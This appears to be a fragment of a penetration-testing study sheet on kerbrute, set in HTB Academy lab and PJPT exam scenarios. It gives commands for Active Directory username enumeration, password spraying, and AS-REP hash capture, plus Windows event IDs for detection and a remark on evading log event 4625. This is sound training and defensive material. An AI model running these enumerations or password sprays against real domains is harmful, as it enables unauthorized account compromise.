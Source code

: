 ```bash
```

### Attack Workflows

#### HTB Academy Scenario
```bash
# 1. Initial enumeration with common usernames
./kerbrute userenum -d inlanefreight.local common_users.txt --dc 10.129.201.57 -v

# 2. Create targeted list based on OSINT
cat > inlane_users.txt << EOF
bwilliamson
ben.williamson
williamson.ben
administrator
admin
service
backup
guest
EOF

# 3. Enumerate against domain
./kerbrute userenum -d inlanefreight.local inlane_users.txt --dc 10.129.201.57

# 4. Password spray with common passwords
./kerbrute passwordspray -d inlanefreight.local valid_users.txt Password123! --dc 10.129.201.57
```

#### PJPT Exam Strategy
```bash
# Step 1: Quick user enum with common names
./kerbrute userenum -d domain.local /usr/share/seclists/Usernames/top-usernames-shortlist.txt --dc $DC_IP

# Step 2: Password spray with seasonal passwords
./kerbrute passwordspray -d domain.local valid_users.txt "Welcome2024!" --safe --dc $DC_IP
./kerbrute passwordspray -d domain.local valid_users.txt "Password123!" --safe --dc $DC_IP

# Step 3: Check for AS-REP roastable accounts
./kerbrute userenum -d domain.local valid_users.txt --dc $DC_IP --hash-file asrep.hash

# Step 4: Target specific service accounts
./kerbrute passwordspray -d domain.local service_accounts.txt "Password1" --dc $DC_IP
```

### Event Log Analysis

#### Windows Event IDs Generated
```bash
# Event ID 4768 - Kerberos TGT Request (Username enumeration)
# Event ID 4771 - Kerberos pre-authentication failed (Password attacks)
# Event ID 4625 - NOT generated (that's why it's stealthier)

# Check logs on Domain Controller
Get-WinEvent -LogName Security | Where-Object {$_.Id -eq 4768} | Select-Object TimeCreated,Message
```
